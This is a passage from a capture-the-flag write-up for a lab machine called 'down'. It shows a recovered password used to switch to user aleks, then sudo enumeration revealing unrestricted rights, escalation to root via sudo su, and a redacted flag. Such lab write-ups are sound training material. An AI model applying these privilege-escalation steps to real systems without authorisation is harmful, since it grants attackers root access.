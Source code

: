 With the `password` we switched to `aleks`.

```c
aleks@down:~$ sudo su
[sudo] password for aleks: 
root@down:/home/aleks#
```

## Pivoting

As `aleks` we checked his `group memberships` and if he was able to execute any commands using `sudo`. And indeed since he was able to execute `(ALL : ALL) ALL` within `sudo` the `privilege escalation` to `root` was just `sudo su`.

```c
aleks@down:~$ id   
uid=1000(aleks) gid=1000(aleks) groups=1000(aleks),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

```c
aleks@down:~$ sudo -l
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```

## Privilege Escalation to root

```c
aleks@down:~$ sudo su
root@down:/home/aleks#
```

## root.txt

```c
root@down:~# cat root.txt
VL{<REDACTED>}
```
